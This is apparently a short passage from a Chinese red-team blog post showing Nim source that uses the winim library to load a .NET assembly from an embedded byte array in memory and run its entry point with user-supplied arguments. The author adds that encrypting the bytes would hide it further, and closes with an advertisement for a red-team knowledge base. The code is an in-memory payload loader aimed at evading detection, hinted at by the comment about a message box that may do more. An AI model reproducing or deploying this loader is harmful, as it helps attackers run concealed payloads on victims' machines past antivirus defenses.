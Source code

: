 体积只有800k。

![](https://gitee.com/fuli009/images/raw/master/public/20210830111921.png)

现在还没法执行自定义参数，源码修改后如下:

    
    
    import winim/clr  
    import sugar  
    import strformat  
    import os  
      
    # Just pops a message box... or does it? ;)  
    var buf: array[4608, byte] = [byte 0x4d,0x5a,0x90,0x0]  
      
    echo "[*] Installed .NET versions"  
    for v in clrVersions():  
        echo fmt"    \--- {v}"  
    echo "\n"  
      
    echo ""  
      
    var assembly = load(buf)  
    dump assembly  
      
      
    var cmd: seq[string]  
    var i = 1  
    while i <= paramCount():  
        cmd.add(paramStr(i))  
        inc(i)  
    echo cmd  
    var arr = toCLRVariant(cmd, VT_BSTR)  
    assembly.EntryPoint.Invoke(nil, toCLRVariant([arr]))

![](https://gitee.com/fuli009/images/raw/master/public/20210830111922.png)

  

OJBK.

要更进一步隐藏的话，需要对字节进行加密解密。

nim感觉搞懂winim这个库就能写好多小工具了。

戳我直达原文地址

  

![](https://gitee.com/fuli009/images/raw/master/public/20210830111923.png)

插播一条广告，使用语雀开了一个红队知识库的空间，免费共享。

详情地址 https://www.yuque.com/u212486/hqo6tb/rmzr1u

  

![]()
